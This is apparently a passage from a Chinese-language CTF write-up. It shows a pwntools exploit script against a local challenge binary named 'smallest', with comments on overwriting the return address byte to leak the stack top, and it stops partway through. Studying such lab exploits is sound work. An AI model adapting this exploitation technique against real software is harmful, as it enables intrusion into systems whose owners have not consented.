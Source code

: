 #### 暴露栈首

```python
from pwn import *
from pwn import p64
from pwn import u64

p = process('./smallest')
# context.log_level = 'debug'
start_addr = p64(0x4000B0)
#skip_xor = 0x4000B3
# 发送三次 start_addr,rsp即为b0 00 40 00 00 00 00 00 b0 00 40 00 00 00 00 00
p.send(start_addr * 3)
#此时再次返回start_addr，rsp移动一个指针的距离，此时rsp为b0 00 40 00 00 00 00 00
#发送一个字节，也就是修改b0为b3
p.send(b'\xb3')
